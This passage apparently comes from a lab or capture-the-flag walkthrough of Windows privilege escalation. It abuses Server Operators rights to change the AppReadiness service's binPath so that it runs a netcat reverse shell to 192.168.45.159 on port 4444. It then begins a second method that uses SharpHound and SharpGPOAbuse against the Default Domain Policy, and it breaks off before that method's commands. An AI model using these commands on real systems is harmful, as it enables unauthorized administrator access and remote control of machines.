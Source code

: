 If we have SeRestorePrivilege that means most probably we are in Server Operators group, consequently that means most probably we can SERVICE_ALL_ACCESS over services running as Local System, you can first run `.\winPEASany.exe quiet servicesinfo` and identify such services and then change their config binpath to add us to local admin group or better give us a shell.

![image.png](image%2020.png)

We are in `Server Operators` group. 

I am gonna check my permissions over a service run as Local System

![image.png](image%2021.png)

```powershell
sc.exe sdshow "AppReadiness"
```

![image.png](image%2022.png)

```powershell
sudo python3 /opt/winsddl/sd.py --type=service "D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)”
```

![image.png](image%2023.png)

As you can see we have `SERVICE_START`, `SERVICE_STOP`, `SERVICE_CHANGE_CONFIG`.

```powershell
sc.exe config AppReadiness binPath= "cmd /c C:\tools\nc64.exe 192.168.45.159 4444 -e cmd.exe"
```

I am gonna upload `nc64.exe` and configure the service to run reverse shell with that.

![image.png](image%2024.png)

![image.png](image%2025.png)

As you can see we changed the service config, now let’s trigger it by stopping and restarting the service.

![image.png](image%2026.png)

![image.png](image%2027.png)

### 2nd way (GPO Abuse)

Upload `SharpHound.exe` and run it, then download `zip` file and open it in `BloodHound`.

```powershell
.\SharpHound.exe -c All --zipfilename vault
```

![image.png](image%2028.png)

We have `GenericWrite` over `Default Domain Policy` in this case we can use [`SharpGPOAbuse`](https://github.com/byronkg/SharpGPOAbuse/tree/main/SharpGPOAbuse-master?source=post_page-----158516460860---------------------------------------) tool to change GPOs for privilege escalation. Let’s add our user to `Administrators` group:
